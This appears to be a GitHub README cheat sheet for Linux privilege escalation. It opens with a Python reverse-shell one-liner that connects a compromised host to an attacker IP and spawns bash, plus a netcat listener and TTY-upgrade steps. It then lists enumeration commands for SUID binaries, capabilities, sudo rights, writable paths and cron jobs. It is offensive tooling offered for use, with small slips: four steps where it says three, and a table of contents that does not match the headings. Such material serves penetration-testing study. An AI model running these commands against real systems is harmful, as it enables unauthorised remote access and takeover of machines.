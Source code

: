 # BASIC PRIVILEGE ESCALATION ENUMERATION
This document contains a list of useful commands for privilege escalation in Unix-like operating systems. These commands can help identify potential vectors for escalating privileges on a system. Most of which should be exploitable with the help of [GTFOBins](https://gtfobins.github.io/).

## Python Reverse Shell & Netcat Listener
It connects a compromised machine to an attacker's IP for remote command execution, while a Netcat listener waits on a specified port to receive incoming connections from such reverse shells.
#### Python TTY Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.x.y",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```
#### Netcat listener
```
nc -nvlp 4444
```

## Upgrading to a TTY Shell
A TTY (teletypewriter) shell is a command-line interface that allows users to interact with the operating system through a terminal, enabling input and output of text commands and responses in a real-time, interactive session. It simulates the behavior of traditional teletypes, providing a way to execute commands and scripts in a Unix-like environment. There are a total 3 steps to spawning a successful TTY Shell:
- STEP-1: Run `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured pretty looking bash shell. But we still won’t be able to use tab autocomplete or the arrow keys.
- STEP-2: Run `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp` to set or modify the value of the PATH environment variable in a Unix-like OS such as Linux or macOS.
- STEP-3: Run the command: `export TERM=xterm-256color` to access term commands such as `clear`.
- STEP-4: Run the command: `stty raw -echo;` to turn off the terminal echo (giving us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).

## Table of Contents
- [Finding SUID Files](#finding-suid-files)
- [Finding SGID Files](#finding-sgid-files)
- [Checking Sudo Permissions](#checking-sudo-permissions)
- [Finding Writable Files and Directories](#finding-writable-files-and-directories)
- [Finding Executables in PATH](#finding-executables-in-path)
- [Listing Scheduled Cron Jobs](#listing-scheduled-cron-jobs)
- [Checking User and Group Information](#checking-user-and-group-information)

### Finding SUID Files
- Finding the files with SUID (Set User ID) execution permissions of the file Owner which could be used to escalate privileges.
```
find / -perm -4000 -type f 2>/dev/null
```

### Finding Capabilities of Files
- Recursively listing the capabilities of all files on the root file system, suppressing error messages.
```
getcap -r / 2>/dev/null
```

### Checking Sudo Permissions
- Finding out what SUDO privileges the current has (If any):
```
sudo -l
```

### Finding Writable Files and Directories
- Identifying files and directories writable by the user can help in various privilege escalation scenarios.

Writable Files
```
find / -writable -type f 2>/dev/null
```
Writable Directories
```
find / -writable -type d 2>/dev/null
```

### Finding Executables in PATH
- Finding executables in the PATH environment variable can help identify potentially exploitable scripts or binaries.
```
echo $PATH | tr ':' '\n' | xargs -I {} find {} -type f -executable 2>/dev/null
```

### Listing Scheduled Cron Jobs
- Viewing cron jobs can reveal scheduled tasks that may be leveraged for privilege escalation.
```
cat /etc/crontab && ls /var/spool/cron/crontabs && ls /etc/cron.* && crontab -l
```

### Checking User and Host Information
- Checking user and group details can provide insight into potential privilege escalation opportunities.
```
whoami && id && hostname
```

Feel free to modify or expand upon this template based on your needs. If you have any specific commands or sections you’d like to add, let me know!

